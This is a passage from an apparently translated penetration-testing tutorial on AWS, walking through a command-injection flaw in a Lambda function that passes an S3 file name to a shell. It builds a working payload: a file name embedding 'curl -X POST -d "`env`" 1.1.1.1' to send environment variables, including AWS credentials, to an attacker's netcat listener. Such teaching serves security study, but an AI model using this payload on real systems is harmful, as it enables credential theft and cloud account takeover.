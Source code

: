 ```
Line 13: object_key is assigned the value of "hello.zip"

Line 14: object_key is URL decoded by urllib.parse.unquote_plus (Note: the reason this line is in the code is because the file name comes in with special characters URL encoded, so those need to be decoded to work with the S3 object directly)

Line 25: file_download_path is assigned the value of f'/tmp/{object_key.split("/")[-1]}', which ultimately resolves to "/tmp/hello.zip"

Lines 29-30: A shell command is run with the input f'zipinfo {file_download_path} | grep ^- | wc -l', which resolves to "zipinfo /tmp/hello.zip | grep ^- | wc -l".
```

似乎我们只需要担心一个限制，那就是代码检查文件第 16 行是否有`.zip`扩展名。考虑到所有这些信息，我们现在可以开始处理恶意负载了。

`zipinfo /tmp/hello.zip`命令中直接有我们用户提供的字符串，所以我们只需要将此命令分解以运行我们自己的任意命令。如果我们将`hello.zip`更改为类似`hello;sleep 5;.zip`的内容，那么最终的命令将是`"zipinfo /tmp/hello;sleep 5;.zip | grep ^- | wc -l"`。我们插入了两个分号，这使 shell 解释器（bash）认为要执行的命令不止一个。不是运行单个命令`zipinfo /tmp/hello.zip`，而是运行`"zipinfo /tmp/hello"`，该命令将失败，因为该文件不存在；然后，它会运行`"sleep 5"`并休眠 5 秒钟，然后它会运行`".zip"`，这不是一个真正的命令，所以会抛出一个错误。

就这样，我们将一个命令（`sleep 5`）注入到 Lambda 服务器的 shell 中。现在，因为这是盲目的（如中所示，我们看不到任何命令的输出），我们需要过滤我们想要的重要信息。支持 Lambda 函数的操作系统默认安装了`"curl"`，因此这将是一种发出外部请求的简单方法，并且我们知道 AWS 凭据存储在环境变量中，因此我们只需要`curl`将凭据发送到我们控制的服务器。

为此，我在自己的服务器上设置了一个 NetCat 侦听器（本演示中以 IP 地址`1.1.1.1`为例），该服务器的端口`80`处于打开状态，并使用以下命令：

```
nc -nlvp 80
```

然后，我们将制定有效负载，以过滤凭证。我们可以使用`"env"`命令访问环境变量，因此使用 curl 向我们的外部服务器发出 HTTP POST 请求的一般命令将包括作为主体的所有环境变量，如下所示：

```
curl -X POST -d "`env`" 1.1.1.1
```

它可能看起来有点古怪，但因为`"env"`命令提供多行内容，所以需要将其放在引号中，否则会弄乱整个命令（尝试在您自己的服务器上运行`"curl -X POST -d `env` 1.1.1.1"`并查看结果）。如果您不熟悉，backticks（```命令指示 bash 在执行整个`curl`命令之前运行`"env"`命令，因此它将`POST`这些变量发送到我们的外部服务器。另外，因为我们的服务器正在监听端口`80`，所以我们不需要在`curl`命令中包含`http://`或该端口，因为给定一个 IP 地址，默认是转到`http://1.1.1.1:80`。这样可以避免很多不必要的字符。这可能不一定是一种常规的方法，但是这个字符串的优点是它很容易放入文件名，这正是我们利用这个 Lambda 函数所需要的！

回到我们的有效载荷；现在，我们需要使用以下名称将文件上载到 S3：

```
hello;curl -X POST -d "`env`" 1.1.1.1;.zip
```

Microsoft Windows 不允许您使用此名称创建文件，因为其中包含双引号，但使用 Linux 很容易做到这一点。我们可以使用`touch`命令创建文件。它将如下所示：

```
touch 'hello;curl -X POST -d "`env`" 1.1.1.1;.zip'
```

前面命令的输出如下所示：

![](Images/215c8c00-1f95-48dd-b752-e4274bc82d14.png)

在我们自己的 Ubuntu 服务器上创建带有恶意名称的文件
